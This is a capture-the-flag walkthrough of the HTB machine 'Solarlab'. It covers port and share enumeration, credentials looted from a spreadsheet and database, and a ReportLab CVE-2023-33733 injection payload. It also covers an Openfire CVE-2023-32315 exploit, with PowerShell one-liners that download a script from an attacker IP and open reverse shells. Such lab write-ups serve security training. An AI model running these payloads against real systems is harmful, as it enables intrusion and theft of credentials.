<div style="display: flex; align-items: center;">
  
  <div>
    <p style="font-size:35px;"><b>Solarlab</b></p>
    <p style="font-size:20px;">Windows • <font color="#fbaf3f">Medium</font></p>
  </div>
</div>

## Nmap - Directory Busting

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.16
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 03:46 EDT
Nmap scan report for solarlab.htb (10.10.11.16)
Host is up (0.067s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          nginx 1.24.0
|_http-title: SolarLab Instant Messenger
|_http-server-header: nginx/1.24.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
6791/tcp open  http          nginx 1.24.0
|_http-server-header: nginx/1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-24T07:48:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.96 seconds
```

We will also try some (sub)directory fuzzing.
```bash
$ gobuster dir -u http://solarlab.htb -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://solarlab.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/Images               (Status: 301) [Size: 169] [--> http://solarlab.htb/Images/]
/assets               (Status: 301) [Size: 169] [--> http://solarlab.htb/assets/]
/con                  (Status: 500) [Size: 177]
/images               (Status: 301) [Size: 169] [--> http://solarlab.htb/images/]
/nul                  (Status: 500) [Size: 177]
/secci�               (Status: 500) [Size: 177]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

```bash
$ ffuf -u http://solarlab.htb/ -H 'Host: FUZZ.solarlab.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 169
```

Looking at the website we find a home page for a company, with `About`, `Subscribe` and `Contact` segments.

## report.solarlab.htb

Accessing `solarlab.htb:6791` we get redirected to `report.solarlab.htb:6791`, which includes a login page:\


Looking back at the nmap scan, we see that ports `139`,`445` are open. We will be using [this guide](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/) for SMB Enumeration.

```bash
$ smbclient -L 10.10.11.16                       
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Documents       Disk      
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.16 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

$ smbclient //10.10.11.16/Documents              
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023

                7779839 blocks of size 4096. 1861576 blocks available
smb: \> 
```

We get `details-file.xlsx` we find 3 usernames and passwords which may be useful:
```
blake.byte	ThisCanB3typedeasily1@
AlexanderK	danenacia9234n
ClaudiaS	dadsfawe9dafkn
```

Using them for connecting through SMB didn't seem too useful, so I tried to use them for the login page I found earlier but none of them seemed to work. \
Then I remembered that these are most likely employee accounts, which tend to follow a pattern for username/emails.

These are the 3 employees mentioned in the original page:\


Looking back at the usernames, 2 of them follow the same formula, and 1 of them stands out. We could try changing the username from  `blake.byte` to `BlakeB`:\


## PDF generation exploit

We find 4 forms in `/leaveRequest`, `/trainingRequest`, `homeOfficeRequest` and `/travelApprovalForm`.\


Using `/leaveRequest` we see that we get a pdf which includes this line: `ReportLab Generated PDF document http://www.reportlab.com`.

Looking online, we find `CVE-2023-33733`:
> Reportlab up to v3.6.12 allows attackers to execute arbitrary code via supplying a crafted PDF file.

With that information, we will be using the following piece of code:
```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell iex (New-Object Net.WebClient).DownloadString(\'http://10.10.14.55/Invoke-PowerShellTcp.ps1\');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.55 -Port 4444') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

Where we include [samratashok's nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to get reverse shell.

Finally, we set up a server for our reverse shell script, a listener and send our modified request:

```bash
$ ls
Invoke-PowerShellTcp.ps1
$ sudo python3 -m http.server 80
```

```bash
$ nc -lvp 4444
```

And we got reverse shell!\



## Getting user flag

We find the user flag on the user's desktop.
```powershell
PS C:\Users\blake\Documents\app> $Env:UserDomain                     
SOLARLAB
PS C:\Users\blake\Documents\app> gc ../../Desktop/user.txt
```

## Looking around

### Database users

```powershell
PS C:\Users\blake\Documents\app> ls

    Directory: C:\Users\blake\Documents\app

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          5/2/2024  12:30 PM                instance                                                             
d-----         6/24/2024  12:49 PM                reports                                                              
d-----        11/17/2023  10:01 AM                static                                                               
d-----        11/17/2023  10:01 AM                templates                                                            
d-----         6/24/2024   1:25 PM                __pycache__                                                          
-a----        11/17/2023   9:59 AM           1278 app.py                                                               
-a----        11/16/2023   2:17 PM            315 models.py                                                            
-a----        11/18/2023   6:59 PM           7790 routes.py                                                            
-a----          5/2/2024   6:26 PM           3352 utils.py

PS C:\Users\blake\Documents\app> dir instance

    Directory: C:\Users\blake\Documents\app\instance

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          5/2/2024  12:30 PM          12288 users.db                                                             


PS C:\Users\blake\Documents\app> gc instance/users.db
SQLite format 3@  .j?
?!!??+?9tableuseruserCREATE TABLE user (
        id INTEGER NOT NULL, 
        username VARCHAR(50) NOT NULL, 
        password VARCHAR(100) NOT NULL, 
        PRIMARY KEY (id), 
        UNIQUE (username)
)';indexsqlite_autoindex_user_1user
????!)alexanderkHotP!fireguard'claudias007poiuytrewq 9blakebThisCanB3typedeasily1@
????!alexanderk
               claudias         blakeb
```

From that we can assume that the username/password pairs are:
```
alexanderk/HotP!fireguard
claudias/007poiuytrewq
blakeb/ThisCanB3typedeasily1@
```

### Local Users

Looking around some more we find these users:
```powershell
PS C:\Users\blake\Documents\app> dir ../../..

    Directory: C:\Users

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----        11/17/2023  10:03 AM                Administrator                                                        
d-----        11/16/2023   9:43 PM                blake                                                                
d-----        11/17/2023   2:13 PM                openfire                                                             
d-r---        11/17/2023  12:54 PM                Public
```

### Openfire vulnerability

We find that the machine has `Openfire`:
```powershell
PS C:\Users\blake\Documents\app> dir '../../../../Program Files'

    Directory: C:\Program Files

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----        11/16/2023   9:39 PM                Common Files                                                         
d-----         4/26/2024   4:39 PM                Internet Explorer                                                    
d-----        11/17/2023  10:04 AM                Java                                                                 
d-----        11/16/2023   9:47 PM                Microsoft Update Health Tools                                        
d-----         12/7/2019  11:14 AM                ModifiableWindowsApps                                                
d-----        11/17/2023   2:22 PM                Openfire                                                             
d-----         4/26/2024   2:38 PM                RUXIM                                                                
d-----          5/3/2024   2:34 PM                VMware                                                               
d-----        11/16/2023  11:12 PM                Windows Defender                                                     
d-----         4/26/2024   4:39 PM                Windows Defender Advanced Threat Protection                          
d-----        11/16/2023  10:11 PM                Windows Mail                                                         
d-----        11/16/2023  10:11 PM                Windows Media Player                                                 
d-----         4/26/2024   4:39 PM                Windows Multimedia Platform                                          
d-----         12/7/2019  11:50 AM                Windows NT                                                           
d-----        11/16/2023  10:11 PM                Windows Photo Viewer                                                 
d-----         4/26/2024   4:39 PM                Windows Portable Devices                                             
d-----         12/7/2019  11:31 AM                Windows Security                                                     
d-----         12/7/2019  11:31 AM                WindowsPowerShell
```

Online, we find `CVE-2023-32315`:
> Openfire is an XMPP server licensed under the Open Source Apache License. Openfire’s administrative console, a web-based application, was found to be vulnerable to a path traversal attack via the setup environment. This permitted an unauthenticated user to use the unauthenticated Openfire Setup Environment in an already configured Openfire environment to access restricted pages in the Openfire Admin Console reserved for administrative users. This vulnerability affects all versions of Openfire that have been released since April 2015, starting with version 3.10.0. The problem has been patched in Openfire release 4.7.5 and 4.6.8

Online we find that `Openfire` typically uses port `9090`:

```powershell
PS C:\Users\blake\Documents\app>netstat -an | findstr 127.0.0.1
  TCP    127.0.0.1:5000         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5222         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5223         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5262         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5263         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5269         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5270         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5275         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5276         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:7070         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:7443         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:49672        127.0.0.1:49673        ESTABLISHED
...
  TCP    127.0.0.1:54248        127.0.0.1:54247        ESTABLISHED
  UDP    127.0.0.1:1900         *:*                    
  UDP    127.0.0.1:49664        *:*                    
  UDP    127.0.0.1:58877        *:*

PS C:\Users\blake\Documents\app> wget http://127.0.0.1:9090/

StatusCode        : 200
StatusDescription : OK
Content           : <html>
                    <head><title></title>
                    <meta http-equiv="refresh" content="0;URL=index.jsp">
                    </head>
                    <body>
                    </body>
                    </html>
                    
RawContent        : HTTP/1.1 200 OK
                    Accept-Ranges: bytes
                    Content-Length: 115
                    Content-Type: text/html
                    Date: Mon, 24 Jun 2024 10:47:31 GMT
                    Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
                    
                    <html>
                    <head><title></title>
                    <...
Forms             : {}
Headers           : {[Accept-Ranges, bytes], [Content-Length, 115], [Content-Type, text/html], [Date, Mon, 24 Jun 2024 
                    10:47:31 GMT]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        : System.__ComObject
RawContentLength  : 115
```

## Accessing Openfire

We can't really access `Openfire` on `SolarLab`, so we will try to tunnel the service on port `9090` to our machine.\
We will be using [this guide for chisel](https://infinitelogins.com/2020/12/11/tunneling-through-windows-machines-with-chisel/).

We get chisel, and set up a server to move it to `SolarLab`:
```bash
$ wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
$ gzip -d chisel_1.9.1_windows_amd64.gz
$ chmod +x chisel_1.9.1_windows_amd64
$ sudo python3 -m http.server 80
```

```bash
$ chisel server --reverse --port 9002
```

```powershell
PS C:\tmp> curl 'http://10.10.14.55/chisel_1.9.1_windows_amd64' -o C:\tmp\chisel.exe
PS C:\tmp> .\chisel.exe client 10.10.14.55:9002 R:9090:127.0.0.1:9090
```

Now we can access `Openfire` by opening `127.0.0.1:9090` on our kali machine.\


## Openfire exploit and reverse shell

Now we can try to use our exploit for `CVE-2023-32315`.\
We will be using [K3ysTr0K3R's exploit](https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT/tree/main):

```bash
$ git clone https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT.git
$ cd CVE-2023-32315-EXPLOIT
$ python3 CVE-2023-32315.py -u http://127.0.0.1:9090

 ██████ ██    ██ ███████       ██████   ██████  ██████  ██████        ██████  ██████  ██████   ██ ███████
██      ██    ██ ██                 ██ ██  ████      ██      ██            ██      ██      ██ ███ ██     
██      ██    ██ █████   █████  █████  ██ ██ ██  █████   █████  █████  █████   █████   █████   ██ ███████
██       ██  ██  ██            ██      ████  ██ ██           ██            ██ ██           ██  ██      ██
 ██████   ████   ███████       ███████  ██████  ███████ ██████        ██████  ███████ ██████   ██ ███████

Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ

[*] Launching exploit against: http://127.0.0.1:9090
[*] Checking if the target is vulnerable
[+] Target is vulnerable
[*] Adding credentials
[+] Successfully added, here are the credentials
[+] Username: hugme
[+] Password: HugmeNOW
```

We can now access the app with these credentials.\


We find that we can upload a Plugin `.jar` file, and we'll try out [miko550's jar file for this exploit](https://github.com/miko550/CVE-2023-32315):\


Now, following the instructions, we visit `Server > Server Settings > Management tool`:\
\


We use password `123`, and can view the server information:\


We will now try to get a reverse shell from here:\


Like before, we set up a server and listener, and run our command `powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.55/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.55 -Port 4000`:
```bash
$ sudo python3 -m http.server 80
```



## Getting admin password

Now that we have access to the `/Openfire` directory, we can take a look around

```powershell
PS C:\Program Files\Openfire\bin> cd ..
PS C:\Program Files\Openfire> dir

    Directory: C:\Program Files\Openfire

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        11/17/2023   2:11 PM                .install4j
d-----        11/17/2023   2:11 PM                bin
d-----         6/24/2024   7:01 AM                conf
d-----        11/17/2023   2:11 PM                documentation
d-----         6/24/2024   7:01 AM                embedded-db
d-----        11/17/2023   2:11 PM                lib
d-----        11/17/2023   2:24 PM                logs
d-----         6/24/2024   3:25 PM                plugins
d-----        11/17/2023   2:11 PM                resources
-a----         11/9/2022   5:59 PM         375002 changelog.html
-a----         2/16/2022   5:55 PM          10874 LICENSE.html
-a----         2/16/2022   5:55 PM           5403 README.html
-a----         11/9/2022   6:00 PM         798720 uninstall.exe


PS C:\Program Files\Openfire> dir embedded-db

    Directory: C:\Program Files\Openfire\embedded-db

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         6/24/2024   7:01 AM                openfire.tmp
-a----         6/24/2024   7:01 AM              0 openfire.lck
-a----         6/24/2024   3:25 PM           1382 openfire.log
-a----         6/24/2024   7:01 AM            106 openfire.properties
-a----          5/7/2024   9:15 PM          16161 openfire.script

PS C:\Program Files\Openfire> gc embedded-db/openfire.script
...
